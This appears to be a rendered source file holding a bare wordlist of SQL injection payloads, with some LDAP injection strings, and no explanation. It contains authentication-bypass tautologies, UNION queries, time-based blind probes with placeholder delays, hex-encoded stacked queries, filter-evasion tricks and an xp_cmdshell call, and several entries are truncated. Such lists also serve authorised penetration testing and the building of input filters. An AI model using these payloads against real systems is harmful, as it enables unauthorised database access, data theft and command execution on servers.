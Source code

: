 ```
" or isNULL(1/0) /*
declare @s varchar (8000) select @s = 0x73656c ...
â or 1=1 --
char%4039%41%2b%40SELECT
 having 1=1--
) or benchmark(10000000,MD5(1))#
 or username like char(37);
;waitfor delay '0:0:__TIME__'--
" or 1=1--
x' AND userid IS NULL; --
 or 'text' > 't'
 (select top 1
 or benchmark(10000000,MD5(1))#
");waitfor delay '0:0:__TIME__'--
a' or 3=3--
 -- &password=
 group by userid having 1=1--
 or ''='
; exec master..xp_cmdshell
%20or%20x=x
")) or sleep(__TIME__)="
0x730065006c0065006300740020004000400076006500 ...
hi' or 1=1 --
") or pg_sleep(__TIME__)--
%20or%20'x'='x
 or 'something' = 'some'+'thing'
exec sp
29 %
Ã½ or 1=1 --
1 or pg_sleep(__TIME__)--
0 or 1=1
) or (a=a
uni/**/on sel/**/ect
replace
%27%20or%201=1
)) or pg_sleep(__TIME__)--
%7C
x' AND 1=(SELECT COUNT(*) FROM tabname); --
&apos;%20OR
; or '1'='1'
declare @q nvarchar (200) select @q = 0x770061 ...
1 or 1=1
; exec ('sel' + 'ect us' + 'er')
23 OR 1=1
anything' OR 'x'='x
declare @q nvarchar (4000) select @q =
or 0=0 --
1)) or sleep(__TIME__)#
or 0=0 #
 select name from syscolumns where id = (sele ...
hi or a=a
*(|(mail=*))
password:*/=1--
distinct
);waitfor delay '0:0:__TIME__'--
to_timestamp_tz
") or benchmark(10000000,MD5(1))#
 UNION SELECT
%2A%28%7C%28mail%3D%2A%29%29
+sqlvuln
 or 1=1 /*
)) or sleep(__TIME__)='
or 1=1 or ""=
```
